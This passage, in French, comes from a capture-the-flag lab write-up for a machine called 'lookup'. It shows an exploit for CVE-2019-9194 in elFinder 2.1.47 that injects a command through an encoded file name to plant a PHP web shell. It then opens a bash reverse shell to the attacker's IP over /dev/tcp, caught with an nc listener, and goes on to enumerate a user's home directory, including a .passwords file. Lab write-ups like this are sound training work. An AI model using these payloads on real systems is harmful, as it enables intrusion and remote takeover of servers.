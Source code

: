 ```bash
python3 exploit.py -t http://files.lookup.thm/elFinder/ -lh 10.11.126.196 -lp 9000
CVE-2019-9194 elFinder 2.1.47 - PHP connector Command Injection
Uploading image
Gettin file hash: l1_cnNlLmpwZztlY2hvIDNjM2Y3MDY4NzAyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUyNDU1MTU1NDU1MzU0NWIyMjYzMjI1ZDI5M2IyMDNmM2UwYSB8eHhkIC1yIC1wID4gcnNlLnBocDsgIy5qcGc
Rotating image
Requesting shell at http://files.lookup.thm/elFinder/php/rse.php?c=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/10.11.126.196/9000%200>%261'
```

Sur notre machine d'attaque, nous obtenons un shell :

```bash
nc -lvnp 9000
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:9000
Ncat: Listening on 0.0.0.0:9000
Ncat: Connection from 10.10.137.76:34160.
bash: cannot set terminal process group (712): Inappropriate ioctl for device
bash: no job control in this shell
www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ whoami
whoami
www-data
```

## Escalade horizontale

En listant les comptes existants sur la machine, nous trouvons le compte "think". Bien que le fichier trouvé sur elFinder `credential.txt` affiche "think : nopassword", il n'est pas possible de changer d'utilisateur que ce soit avec le mot de passe "nopassword" ou sans mot de passe du tout.

```bash
ls -hAl /home
total 4.0K
drwxr-xr-x 5 think think 4.0K Jan 11  2024 think
```

```bash
ls -hAl /home/think
total 32K
lrwxrwxrwx 1 root  root     9 Jun 21  2023 .bash_history -> /dev/null
-rwxr-xr-x 1 think think  220 Jun  2  2023 .bash_logout
-rwxr-xr-x 1 think think 3.7K Jun  2  2023 .bashrc
drwxr-xr-x 2 think think 4.0K Jun 21  2023 .cache
drwx------ 3 think think 4.0K Aug  9  2023 .gnupg
-rw-r----- 1 root  think  525 Jul 30  2023 .passwords
-rwxr-xr-x 1 think think  807 Jun  2  2023 .profile
drw-r----- 2 think think 4.0K Jun 21  2023 .ssh
lrwxrwxrwx 1 root  root     9 Jun 21  2023 .viminfo -> /dev/null
-rw-r----- 1 root  think   33 Jul 30  2023 user.txt
```

Malheureusement, aucune donnée intéressante n'est accessible pour l'utilisateur `www-data`
